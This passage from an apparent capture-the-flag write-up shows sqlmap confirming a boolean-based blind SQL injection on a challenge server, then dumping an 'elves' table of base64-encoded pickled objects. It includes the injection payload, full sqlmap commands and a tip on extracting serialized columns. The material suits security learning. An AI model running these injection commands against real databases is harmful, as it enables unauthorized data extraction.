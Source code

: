Verified the SQL Injection also with sqlmap:

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
```

![]({{page.screenshots}}ElfResources10.png)

Enumerated the entire db:

{: .warning }
>Sometimes sqlmap is unable to extract serialized data and just return a void column. Use the `--no-cast` o `--hex` flags for those cases.

```bash
$ sqlmap http://challs.htsp.ro:13001/2 --current-db --proxy http://127.0.0.1:8080 --all --batch
...
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 82 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://challs.htsp.ro:13001/2 AND 6613=6613
---
...
Database: <current>
Table: elves
[3 entries]
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| id | data                                                                                                                                     |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | gASVUAAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwJU25vd2ZsYWtllIwIYWN0aXZpdHmUjA1QYWNraW5nIGdpZnRzlIwCaWSUTnViLg==             |
| 2  | gASVSwAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwEQmVsbJSMCGFjdGl2aXR5lIwNSGVscGluZyBTYW50YZSMAmlklE51Yi4=                     |
| 3  | gASVWgAAAAAAAACMCF9fbWFpbl9flIwDRWxmlJOUKYGUfZQojARuYW1llIwFU25vd3mUjAhhY3Rpdml0eZSMG0xvb2tpbmcgYXQgdGhlIG5hdWdodHkgbGlzdJSMAmlklE51Yi4= |
+----+------------------------------------------------------------------------------------------------------------------------------------------+
...
```
